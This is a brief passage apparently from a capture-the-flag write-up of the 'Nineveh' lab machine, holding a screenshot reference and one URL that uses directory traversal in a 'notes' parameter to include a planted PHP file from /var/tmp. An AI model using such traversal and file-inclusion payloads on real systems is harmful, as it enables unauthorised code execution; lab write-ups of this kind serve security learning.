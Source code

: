 ![alt text](./img/nineveh26.PNG?raw=true)  

So now we can access our noob.php page  
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/noob.php  